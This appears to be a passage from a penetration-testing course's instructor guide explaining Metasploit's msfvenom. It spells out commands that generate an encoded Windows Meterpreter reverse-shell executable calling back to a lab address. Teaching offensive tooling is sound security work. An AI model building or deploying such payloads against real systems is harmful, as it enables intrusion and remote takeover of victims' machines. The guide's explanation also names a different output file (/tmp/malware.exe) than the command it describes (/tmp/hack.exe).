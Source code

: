 4. List  `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     Type the following command:

     - `msfvenom -l encoders`

      ![MSV 3](./Images/MSV_3.png)

   Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. `msfvenom` does both actions, and more, in a single command.


#### Msfvenom command structure

Now we'll cover the basics of `msfvenom`'s custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

      - `msfvenom`: Launches the `msfvenom` program.

      - `-p`: Indicates payload. 

      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.

      - `-a x86`: Designates the architecture we will use. `x86` is default.

      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.

      - `-f exe`: Indicates the file type to create. In this case, `.exe`.

      - `-o /tmp/malware.exe`: Creates an output file, naming the file (`malware.exe`) and location (inside the `/tmp` directory).

- Next, let's breakdown the msfvenom we used last class:  

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


### 02.  Activity: Creating Custom Payloads 
